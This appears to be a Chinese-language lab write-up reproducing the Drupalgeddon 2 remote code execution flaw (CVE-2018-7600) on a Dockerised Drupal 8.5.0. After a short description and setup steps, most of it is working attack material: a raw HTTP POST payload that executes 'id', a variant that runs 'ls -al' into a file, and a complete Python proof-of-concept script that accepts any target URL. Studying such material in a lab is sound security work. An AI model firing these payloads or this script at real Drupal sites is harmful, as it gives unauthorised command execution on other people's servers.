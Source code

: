 # Drupal Drupalgeddon 2 远程代码执行漏洞 CVE-2018-7600

## 漏洞描述

Drupal 是一款用量庞大的CMS，其6/7/8版本的Form API中存在一处远程代码执行漏洞。相关分析如下：

- https://research.checkpoint.com/uncovering-drupalgeddon-2/

## 环境搭建

Vulhub执行如下命令启动drupal 8.5.0的环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

安装方式参考CVE-2014-3704

## 漏洞复现

向安装完成的drupal发送如下数据包：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

![image-20220222194824997](images/202202221948098.png)

参考[a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py)，成功写入文件hello.txt：

![image-20220222194214877](images/202202221942007.png)

可以执行命令，将结果输出到1.txt

```
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo `ls -al` | tee 1.txt'}
```

查看1.txt文件内容，即`ls -al`命令执行结果

![image-20220222201852579](images/202202222018658.png)

## 漏洞POC

```python
#!/usr/bin/env python3
import sys
import requests

print ('################################################################')
print ('# Proof-Of-Concept for CVE-2018-7600')
print ('# by Vitalii Rudnykh')
print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
print ('# https://github.com/a2u/CVE-2018-7600')
print ('################################################################')
print ('Provided only for educational or information purposes\n')

target = input('Enter target url (example: https://domain.ltd/): ')

# Add proxy support (eg. BURP to analyze HTTP(s) traffic)
# set verify = False if your proxy certificate is self signed
# remember to set proxies both for http and https
# 
# example:
# proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
# verify = False
proxies = {}
verify = True

url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo ";-)" | tee hello.txt'}

r = requests.post(url, proxies=proxies, data=payload, verify=verify)
check = requests.get(target + 'hello.txt', proxies=proxies, verify=verify)
if check.status_code != 200:
  sys.exit("Not exploitable")
print ('\nCheck: '+target+'hello.txt')
```

